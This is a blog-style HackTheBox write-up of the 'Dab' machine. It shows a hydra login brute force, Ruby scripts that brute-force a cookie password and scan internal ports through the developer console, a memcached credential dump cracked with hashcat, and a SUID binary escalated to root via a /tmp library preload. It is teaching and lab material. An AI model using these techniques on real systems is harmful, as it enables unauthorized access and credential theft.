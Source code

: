 ```yaml
---
layout: post
title: DAB Security Assessment
description: Hackthebox "dab" writeup
fullview: true
---
```


# Introduction to the target.

Here we present a writeup of the "Dab" server and the applications it hosts. As we walk through each issue identified, we'll recommend a suitable mitigation against exploitation. A quick review of open services gives us a few targets.

## FTP
The ftp service accepts anonymous logons appears to have the single purpose of serving the organisation logo.

<amp-img alt="Dab logo"
    src="/assets/images/dab.jpg"
    height="680"
    width="733"
    layout="responsive"
    >
</amp-img>

### Recommendation
Although no significant issue is currently found here, in order to reduce attack surface, this service should be considered for removal.

## Web 

The web application service initially confronts a viewer with a username/password prompt. By testing several passwords, it can be identified that there is no account lockout or rate limiting in place, leading to an obvious potential for brute forcing. The following hydra script has been designed for the site in question:

```

hydra -l admin -P /usr/share/wordlists/rockyou.txt <address> http-post-form "/login:password=^PASS^&username=^USER^:failed"
```

It takes just a few minutes to identify a valid logon, and it should be stressed that the identified credentials meet strict password complexity policies. That is, it contained upper case, lower case, and numeric characters. Accordingly, such policies are not the solution to this type of problem.

## Developers console

The second service to review is the developer's console, on port 8080. This service utilises a more complex authentication system. The below custom code was built from reviewing browser interactions with the site, and will similarly brute force a valid credentials.

```
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVICE:8080/"

def win(password)
  puts "Won with #{password}"
  exit
end

File.open '/usr/share/wordlists/rockyou.txt' do |f|
  f.each_line do |password|
    cookie = WebAgent::Cookie.new
    cookie.name = "password"
    cookie.value = password.chomp
    cookie.url = URL

    client = HTTPClient.new
    client.cookie_manager.add cookie
    response = client.get URL

    puts "Failed password '#{password.chomp}'"
    win(password) unless response.body.match(/Access denied/)
  end
end
```

### Recommendations
Rather than review credentials systems, the developer console could consider alternate authentication mechanisms. These could include requiring VPN access, or IP based whitelisting in addition to the existing solution.

## Utilising the developer console
The developer console can be utilised to connect to an arbitrary local port. The following script has been developed to enumerate all local services by abusing this functionality of the developer's console. This identifies access to several ports not accessible from the outside world.

```
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVER:8080/"

def win(port)
  puts "Won with #{port}"
end

cookie = WebAgent::Cookie.new
cookie.name = "password"
cookie.value = VALUE
cookie.url = URL

1.upto TOP do |port|

  client = HTTPClient.new
  client.cookie_manager.add cookie
  response = client.get URI.parse "http://SERVER:8080/socket?port=#{port}&cmd=test"

  puts "Failed port '#{port}'"
  win(port) unless response.body.match(/500 Internal/)
end

```

The capability is not seen as a vulnerability in the developer's console, but rather as an indication the console itself requires better access control.

## Extracting a password list

The developer's console identifies a memcached service running, and accepting raw string data from that console. The following URL can be utilised to dump available cache information:

http://SERVER:8080/socket?port=11211&cmd=stats+items

[Further information regarding the memcache protocol can be reviewed here.](https://wincent.com/wiki/Testing_memcached_with_telnet)

With this background, the below script can be utilised to dump cached passwords. It is required to manually attempt to logon to the console shortly before running this script.

```
#!/usr/bin/env ruby
#
require 'json'
list = File.read "userlist.json"

listj = JSON.parse(list)

listj.each_pair do |user, password|
  puts "#{user}:#{password}"
end
```

This should dump 495 username/hashed password combinations.

    hashcat64 --show dab.txt rockyou -m 0 --username

Allows for a relatively quick brute force attack on the dumped data, supplying 12 valid user credentials. Once of these is a valid SSH user.

## Privilege Escalation
Enough enumerating various paths will lead you to a SUID root binary named 'myexc'. Running it looks like this:

```
myexec
Enter password:
```

Attempting to copy the binary offsite to debug will inform you a library is required, which we can easily find:

```
$ find /usr -name libseclogin*
/usr/lib/libseclogin.so
/usr/src/libseclogin
genevieve@dab:~$ ls /usr/src/libseclogin/
seclogin.h
genevieve@dab:~$ cat /usr/src/libseclogin/seclogin.h
#include<stdio.h>
extern unsigned int seclogin();
```

ltrace happily tells us the password required to proceed.

```
 ltrace myexec
__libc_start_main(0x400836, 1, 0x7fff4a651bc8, 0x4008f0 <unfinished ...>
printf("Enter password: ")                      = 16
__isoc99_scanf(0x400985, 0x7fff4a651a90, 0x7f491a4c5780, 16Enter password: atest
) = 1
strcmp("s3cur3l0g1n", "atest")                  = 18
puts("Invalid password\n"Invalid password

)                      = 18
+++ exited (status 1) +++

```

Let's use that and see what the binary has in store for us. Note, saw above what seclogin() looks like and how exactly it responds.

```

genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

seclogin() called
TODO: Placeholder for now, function not implemented yet

```

The attacker really should be blocked at this point. Utilising an external library isn't a vulnerability on a SUID binary, since the usual LD\_PRELOAD tricks are ignored by the OS. In fact, the only place a preloaded library is accepted from is the locations defined under /etc/ld/so.conf.d. What do we see here however?

```
 cat /etc/ld.so.conf.d/test.conf
/tmp
```

At this point, we have a valid preload path, and a function we know how to call. Let's build and run a shell:

```
mine.c: In function ‘seclogin’:
mine.c:9:1: warning: control reaches end of non-void function [-Wreturn-type]
 }
 ^
genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

$ whoami
genevieve
$ id
uid=1000(genevieve) gid=0(root) groups=0(root),1000(genevieve)
```

And with root access, the attacker has full control of the machine. Our recommendation in response is to move development projects off the production servers.
